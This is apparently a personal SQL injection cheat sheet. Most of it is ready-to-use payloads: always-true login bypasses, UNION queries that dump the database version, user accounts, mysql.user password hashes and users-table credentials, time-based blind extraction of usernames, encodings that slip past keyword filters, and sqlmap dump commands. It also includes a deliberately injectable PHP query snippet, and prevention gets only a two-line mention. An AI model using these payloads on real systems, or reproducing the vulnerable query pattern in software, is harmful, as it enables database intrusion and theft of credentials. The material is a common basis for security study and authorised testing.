 # SQL INJECTION

SQL Operators and Functions
---------------------------

`UNION` - used to combine the result of two or more SELECT statements with same number of columns and similar data types (selects only distinct values by default - to allow duplicate values, use UNION ALL).  
`SUBSTRING(str, pos, len)` - returns a specified number of characters from a particular position of a given string. str=string; pos=starting position; len=length in characters.
`VERSION()` - returns a string that indicates the MySQL server version.

SQL comments: `/* actual comment text*/`  

MySQL delimiter (comment): `#`
SQL delimiter (comment): `--`

Only MySQL is using `version_comment`.

Vulnerable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```

General Tips
------------

Find out if the web app is talking to a data store (i.e. file, web service, database).  
Look for parameter passing and insert single/double quote there - immediately after the parameter value or instead the parameter value.  
Browse the web app, note errors, behaviour.

PHP usually "talks" to MySQL.  
Understand, what tier we're messing with? Web server, app server, database?

Try `parameter?id=(5-2)`instead of 3 - get the same? Might mean that the injection is possible.

* "Always true" scenario:

```
%' OR '0'='0
%' OR 1=1--
"' OR '1'='1';-- " (note the space after the second hyphen)
```

`%` will probably not be equal to anything so will be false
`'0'='0'` - always equal to true

* Figure out how many columns / attributes are there:

`‘ ORDER BY 1#`  
`‘ ORDER BY 2#`  
etc.

* Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`
`%' or 0=0 union select null, version() #`

* Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`
`%' or 0=0 union select null, user() #`

* Dump MySQL hash:

`‘ UNION ALL SELECT user,password FROM mysql.user#`

* Find out the table name:

`‘ UNION ALL SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE ‘%[database name]%’ #`

* Find out columns in a table:

`‘ UNION ALL SELECT table_schema, column_name FROM information_schema.columns WHERE table_schema LIKE ‘%[database name]%’ #`

* Dump username and password from `example.users` table:

`‘ UNION ALL SELECT user, password FROM example.users #`

* Display all tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables #`

* Display all the user tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables where table_name like 'user%'#`

* Display all the columns fields in database's user table:

%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`

* Display all the columns field contents in the database user table:

`%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`


Blind SQLi
----------

When you put in a tick, you are redirected to a homepage? Suspicious.

```
id=2; waitfor delay '00:00:10'--
id=2; IF (LEN(USER)=1) waitfor delay '00:00:10'--
id=2; IF (LEN(USER)=2) waitfor delay '00:00:10'--
```

etc...

Then, look at ASCII chart and try guessing admin username:

```
id=2; IF (ASCII(lower(substring((USER),1,1)))=97) WAITFOR DELAY '00:00:10'--
id=2; IF (ASCII(lower(substring((USER),1,1)))=98) WAITFOR DELAY '00:00:10'--
```

etc.

Note: sqlmap tool is good for blind sqli.  
These days there's more union-based SQLi.


Circumventing Simple Validation
-------------------------------

If SELECT keyword is being blocked, try:

```
SeLeCt
%00SELECT
SELSELECTECT
%53%45%4c%45%43%54
%2553%2545%254c%2545%2543%2554
```

Bypassing Simple Input Filtering / Smuggling
--------------------------------------------

Example code:

```
function unsqli($str){
        $str = str_replace("'", "\\'", $str);
        return "'".$str."'";
}
```

Bypass this filtering with `\'`.  

* http://web.archive.org/web/20130401091931/http://www.comsecglobal.com/FrameWork/Upload/SQL_Smuggling.pdf

SQLMAP
------

`sqlmap -u "URL" --cookie="COOKIE"`

--dbs: list databases  
-D [database]: specify a databases  
--tables: list tables  
-T users: list columns of users table  
-C user, password --dump  

* POST requests:  
`sqlmap -r post_request.txt -p <parameter>`

Other Tools
-----------

* Havij
* sqlninja
* BBQSQL
* Metasploit SQLi Module


Prevention Techniques
---------------------

* Input sanitization
* Prepared statements


Resources
---------

* http://seclists.org/pauldotcom/2010/q3/341  
* https://www.notsosecure.com/more-on-true-and-error-blind-sql-injection/  
* https://www.notsosecure.com/exploiting-sql-injections-in-insert-statements/
* http://www.blackhat.com/presentations/bh-usa-06/BH-US-06-Willis.pdf
* [Great introduction to SQLi](https://www.youtube.com/watch?v=P6fLRmeEKKA)
* [MySQL SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
